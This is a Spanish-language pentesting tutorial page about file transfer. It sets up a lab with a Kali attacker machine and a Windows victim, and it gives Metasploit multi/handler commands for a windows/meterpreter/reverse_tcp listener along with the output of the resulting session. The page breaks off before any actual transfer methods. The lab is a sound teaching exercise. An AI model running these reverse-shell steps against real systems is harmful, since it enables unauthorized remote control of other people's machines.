 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Transferencia de ficheros

Con esta tecnica de pasarnos ficheros a traves de la `red` tendremos varias formas de hacerlo, por ejemplo una de ellas es tanto si tenemos un acceso a la maquina victima tanto logico como fisico teniendo una interfaz grafica podremos interactuar con los componentes graficos de la maquina victima, pero si tenemos una `shell reversa` teniendo acceso solo desde terminal tendremos que hacerlo de otras formas.

Teniendo estos `2` escenarios vamos a ver como seria la transferencia de archivos en dichos escenarios.

Teniendo nuestro `kali` como maquina atacante y el `WS02` (`Windows`) como maquina victima, vamos a crearnos una conexion `reversa` a la maquina `WS02` mediante `metasploit` con el `meterpreter`, pero no utilizaremos `meterpreter` utilizaremos la `shell` de `Windows`.

```shell
msfconsole -q
```

Configuramos la escucha de la siguiente forma:

```shell
use multi/handler
set LHOST 192.168.5.205
set LPORT 7777
set PAYLOAD windows/meterpreter/reverse_tcp
run
```

Ejecutamos el `binario` para que nos cree la `shell` desde el `Windows` y veremos lo siguiente en `metasploit`:

```
[*] Started reverse TCP handler on 192.168.5.205:7777 
[*] Sending stage (177734 bytes) to 192.168.5.209
[*] Meterpreter session 1 opened (192.168.5.205:7777 -> 192.168.5.209:61133) at 2025-02-12 05:54:49 -0500

meterpreter >
```
